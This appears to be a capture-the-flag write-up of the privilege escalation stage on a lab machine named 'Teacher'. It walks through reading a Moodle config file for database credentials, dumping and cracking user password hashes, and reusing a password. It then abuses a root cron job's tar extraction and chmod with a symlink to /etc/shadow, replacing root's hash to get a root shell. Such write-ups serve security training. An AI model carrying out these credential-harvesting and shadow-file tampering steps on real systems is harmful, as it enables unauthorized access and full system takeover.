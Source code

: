 # 15 - PrivEsc


# Configuration File

The first place to look into for lateral movement is the the web server itself. Web apps like Moodle use databases to store data. If we can access the config file we access the database.


```php
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://10.10.10.153/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```


Always try password reuse for system users before proceeding with the database. In our case, they are not using the same password.


# Passwords
```bash
www-data@teacher:/var/www/html/moodle$ mysql -u root -p                                                                                                                                       Enter password:Welkom1!

MariaDB [(none)]> use moodle;
MariaDB [moodle]> select username,password from mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)

MariaDB [moodle]> 

```

Giovannibak password doesn't look like the other passwords in the database.


# MD5 Hash
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ echo -n 7a860966115182402ed06375cf0a22af | wc -c
32
```

32 character length usually points us to md5.

# CrackStation
![](vx_images/2493474150585.png)

**expelled** is the password

# Giovanni
```bash
www-data@teacher:/var/www/html/moodle$ su - giovanni
Password: expelled
giovanni@teacher:~$
```

The password from the mysql database matches the giovanni's password.

# Files owned by root
```
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:45 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
```

Once logged in, we notice files that belong to root. 



# Root is extracting tarball every minutes
```bash
giovanni@teacher:~/work/tmp$ date
Sat Aug 28 18:50:11 CEST 2021
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Aug 28 18:50 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:50 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Aug 28 18:50 courses
```

Today's date and time matches the file modification time. This means a process running as root is doing something in our home directory every minutes. Of course we should take into account that the archive and courses are read/write open to everybody.

We need to know what exactly is happening in giovanni's home. To do that we have to monitor all the processes. PsPy is a great tool for monitoring processes without root permissions.

# Pspy64
![](vx_images/1481662423322.png)

Apparently, /usr/bin/backup.sh is a cron job.


# Cron job
```bash
giovanni@teacher:~/work/tmp/courses$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

1- tar -czvf creates a gzip archive with files in courses/ and names it tmp/backup_courses.tar.gz
2- tar -xf extracts the archive into tmp
3- gives read write permissions to everything in *tmp*

Remember we have write access to tmp, a symbolic link to /etc/shadow should give us read write permission.

# Symbolic link to shadow
```bash
giovanni@teacher:~/work/tmp$ ln -sf  /etc/shadow .
giovanni@teacher:~/work/tmp$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 961 Jun 27  2018 /etc/shadow
```


# replace root hash with giovanni's 
```bash
root@teacher:~# cat /etc/shadow | grep 'giovan\|root'
root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
giovanni:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
```


# root
```bash
giovanni@teacher:~/work/tmp$ su -
Password: expelled
root@teacher:~# 
```